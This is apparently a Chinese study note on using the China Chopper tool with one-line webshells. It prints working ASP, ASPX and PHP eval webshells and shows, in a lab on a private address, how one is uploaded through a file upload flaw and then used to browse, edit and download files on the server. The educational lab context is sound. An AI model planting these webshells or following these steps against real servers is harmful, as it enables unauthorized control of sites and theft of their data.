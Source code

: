 ```yaml
---
title: 中国菜刀配合一句话木马基本使用
date: 2021-12-27 15:48:22
tags: 
- 木马
- 一句话
---
```


## 中国菜刀配合一句话木马基本使用

目的：
* 学习一句话木马
* 学习菜刀的使用

原理：
菜刀的主要功能是用来连接一句话木马的，asp、aspx、php的一句话菜刀都可以连，只是这几种一句话语句不一样。

* asp的一句话是：`<%eval request(“pass”)%>`

* aspx的一句话是：`<%@ Page Language=”Jscript”%><%eval(Request.Item["pass"],”unsafe”);%>`

* php的一句话是：`<?php @eval($_POST['pass']);?>`

过程：

* 打开火狐，http://192.168.1.3:8080/up，打开文件上传漏洞演示脚本，点击中国菜刀连接一句话木马![image-20211228105130236](http://121.5.125.62/image/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E9%85%8D%E5%90%88%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8/image-20211228105130236.png)

* 点击浏览，上传php文件，木马地址为http://192.168.1.3:8080/up/images/lubr.php![image-20211228105156422](http://121.5.125.62/image/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E9%85%8D%E5%90%88%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8/image-20211228105156422.png)

* 打开中国菜刀

* 添加木马地址，密码为lubr，脚本类型php(eval)![image-20211228105329855](http://121.5.125.62/image/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E9%85%8D%E5%90%88%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8/image-20211228105329855.png)

* 添加到主界面![image-20211228105353101](http://121.5.125.62/image/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E9%85%8D%E5%90%88%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8/image-20211228105353101.png)

* 右键文件管理，即可查看目标服务器的完整目录，也可进行创建文件，修改文件，修改和下载等相关操作![image-20211228105418680](http://121.5.125.62/image/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E9%85%8D%E5%90%88%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8/image-20211228105418680.png)

* 右键单击浏览网站，即可实现浏览器功能，浏览该站点![image-20211228105439630](http://121.5.125.62/image/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E9%85%8D%E5%90%88%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8/image-20211228105439630.png)




